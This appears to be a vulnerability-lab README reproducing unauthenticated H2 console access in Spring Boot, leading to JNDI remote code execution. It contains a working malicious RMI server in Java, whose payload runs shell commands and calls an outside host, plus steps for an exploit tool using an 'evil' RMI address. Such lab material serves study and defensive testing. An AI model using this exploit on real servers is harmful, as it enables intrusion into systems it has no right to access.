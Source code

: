 # H2 Database Web Console Unauthorized Access

[中文版本（Chinese Version）](README.zh-cn.md)

H2 database is a embedded in-memory database in Java. Springboot with h2 database comes with a web management page which has no authentication if you set the following options:

```
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true
```

This management page supports using JNDI to load the JDBC driver, which can lead to remote code execution via remote class loading.

References:

- <https://mp.weixin.qq.com/s?__biz=MzI2NTM1MjQ3OA==&mid=2247483658&idx=1&sn=584710da0fbe56c1246755147bcec48e>

## Setup

Start a spring-boot with h2 database and embedded tomcat:

```
docker compose up -d
```

After started the container, the spring-boot is listening on `http://your-ip:8080`, the management page is `http://your-ip:8080/h2-console/` by default.

## Vulnerability Reproduce

Reference to *[Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)*, we should use `org.apache.naming.factory.BeanFactory` and `javax.el.ELProcessor` to launch the external process after Java 8u191:

```java
import java.rmi.registry.*;
import com.sun.jndi.rmi.registry.*;
import javax.naming.*;
import org.apache.naming.ResourceRef;
 
public class EvilRMIServerNew {
    public static void main(String[] args) throws Exception {
        System.out.println("Creating evil RMI registry on port 1097");
        Registry registry = LocateRegistry.createRegistry(1097);
 
        //prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        //redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
        ref.add(new StringRefAddr("forceString", "x=eval"));
        //expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','nslookup jndi.s.artsploit.com']).start()\")"));
 
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("Object", referenceWrapper);
    }
}
```

Simply use this tool *[JNDI](https://github.com/JosephTribbianni/JNDI)* to exploit the vulnerability. First, set up the target command to `touch /tmp/success` at `config.properties`:

![](3.png)

Then start the `JNDI-1.0-all.jar`, is will be listening on `0.0.0.0:23456`. fill in the form based on these pieces of information:

![](1.png)

`javax.naming.InitialContext` is the JNDI factory class name, URL `rmi://evil:23456/BypassByEL` is your evil RMI address.

Evil RMI server received the requests:

![](2.png)

`touch /tmp/success` has been execute successfully:

![](4.png)
